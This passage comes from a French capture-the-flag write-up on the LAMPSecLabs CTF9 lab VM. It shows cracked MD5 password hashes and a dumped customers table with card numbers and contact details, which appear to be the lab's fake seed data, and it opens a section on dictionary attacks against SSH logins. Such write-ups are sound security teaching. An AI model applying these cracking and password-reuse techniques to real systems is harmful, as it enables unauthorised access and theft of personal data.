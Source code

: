 ![Affichage de l'image CTF9_MD5_user_hashes.png](images/CTF9_MD5_user_hashes.png)

```
dab64765f3d4fc29ced777be274337ea MD5 : hacking
b6e4e4d617ec2406cea4555a5c40e137 MD5 : madirish.net
93b542f0c7a6f2279fc94f44b013baf1 MD5 : billybob
4c4999ac17adcef1a5a75fab71e5c857 MD5 : invisible
fdfaf065cbbfe6e453229e536924b0f1 MD5 : $investment$
```

Enfin, on parvient à extraire la table ```customers``` de la base de données, où sont stockées les informations personnelles et bancaires des clients de LAMPSecLabs... oops!

```console
Database: lampsec
Table: customers
[8 entries]
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| id | ccn              | email                      | phone        | company                       | address                           | lastname | cardtype   | firstname |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
| 1  | 4929597982490216 | jdoe@example.com           | 215-555-5555 | Foo Corp.                     | 1 No Way, Springfield OH          | Doe      | visa       | John      |
| 2  | 5187594592045450 | mrbig@example.com          | 800-555-5555 | Expensive Financial           | 32 Wall Stree, New York City, NY  | Big      | mastercard | Adam      |
| 3  | 4532320014916572 | beth@example.com           | 340-555-5555 | Designer Delivery             | 512 Wisconson Ave, Washington, DC | Piazza   | visa       | Beth      |
| 4  | 4556677062764704 | chuck@example.com          | 710-555-5555 | Andercorp                     | PO Box 5322, Crown Heights, CA    | Flight   | visa       | Charles   |
| 5  | 4716963701268852 | susan.mccormac@example.com | 445-555-5555 | Worldwide Health Solutions    | 512 Riverside Dr., Sunnyvale, CA  | McCormac | visa       | Susan     |
| 6  | 5584427594534230 | richard@example.com        | 888-555-5555 | Electric Iron                 | 212 Industrial Lane, Chicago, IL  | Dripple  | mastercard | Richard   |
| 7  | 342348714249117  | cynthia.turner@example.com | 556-555-5555 | Statewide Logistics LLC       | 50 Drury Lane, Brighton OH        | Turner   | amex       | Cynthia   |
| 8  | 349875331264122  | zeldas@example.com         | 761-555-5555 | Conductive Manufacturing Corp | 6 West 31 Street, Pittsburg PA    | Steaning | amex       | Zelda     |
+----+------------------+----------------------------+--------------+-------------------------------+-----------------------------------+----------+------------+-----------+
```

## Attaque par dictionnaire sur les accès SSH de la VM CTF9

Nous sommes donc en mesure de nous constituer deux dictionnaires, l'un contenant des noms d'utilisateurs et l'autre des mots de passe. L'objectif est de déterminer si les utilisateurs sont précautionneux en matière de sécurité, ou s'ils réutilisent le même mot de passe un peu partout... Habituellement, pour trouver les mots de passe de Bob, d'Alice, de Justin ou encore d'Eve, [plusieurs techniques sont possibles](https://repo.zenk-security.com/Reversing%20.%20cracking/Cracking_Passwords_Guide.pdf) : [les attaques par bruteforce](https://en.wikipedia.org/wiki/Brute-force_attack) qui consistent à tester, de manière exhaustive, toutes les combinaisons possibles ; [les attaques par dictionnaire](https://en.wikipedia.org/wiki/Password_cracking) qui consistent à tester un sous-ensemble de mots ou de combinaisons placés dans un fichier texte ; ou bien [les attaques par social engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)), qui visent à accéder à des informations confidentielles par la manipulation de personnes.
